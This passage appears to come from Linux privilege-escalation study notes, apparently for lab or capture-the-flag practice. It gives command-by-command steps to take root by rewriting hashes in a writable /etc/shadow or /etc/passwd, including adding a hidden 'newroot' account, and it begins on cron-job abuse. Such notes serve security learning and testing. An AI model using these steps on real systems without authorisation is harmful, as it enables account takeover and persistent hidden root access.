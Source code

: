 `ls -l /etc/shadow`

Generate a new password hash with a password of your choice:

`mkpasswd -m sha-512 newpasswordhere`  

Edit the /etc/shadow file and replace the original root user's password hash with the one you just generated.

Switch to the root user, using the new password:

`su root`
### Writable /etc/passwd
The /etc/passwd file contains information about user accounts. It is world-readable, but usually only writable by the root user. Historically, the /etc/passwd file contained user password hashes, and some versions of Linux will still allow password hashes to be stored there.

Note that the /etc/passwd file is world-writable:

`ls -l /etc/passwd`

Generate a new password hash with a password of your choice:

`openssl passwd newpasswordhere`

Edit the /etc/passwd file and place the generated password hash between the first and second colon (:) of the root user's row (replacing the "x").

Switch to the root user, using the new password:

`su root`

Alternatively, copy the root user's row and append it to the bottom of the file, changing the first instance of the word "root" to "newroot" and placing the generated password hash between the first and second colon (replacing the "x").  

Now switch to the newroot user, using the new password:

`su newroot`

## Cron Jobs
For Cron jobs you can overwrite two things.
1. Files
2. PATH environment Variable

`cat /etc/crontab`

Example of a script and a path with bad permissions

```
* * * * * root overwrite.sh
* * * * * root /usr/local/bin/compress.sh
```

### Cron Jobs - File Permissions

Find the script scheduled to run as a cronjob

`locate overwrite.sh`
